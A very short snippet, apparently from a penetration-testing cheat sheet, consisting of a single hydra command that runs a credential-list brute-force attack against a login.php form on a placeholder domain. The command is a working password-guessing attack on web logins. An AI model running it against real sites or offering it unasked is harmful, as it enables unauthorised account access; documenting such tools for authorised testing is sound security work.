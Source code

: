 Wordlist attack, single file, login.php endpoint POST request
`hydra -C usercolonpasses.txt websitedomain https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed" -v`
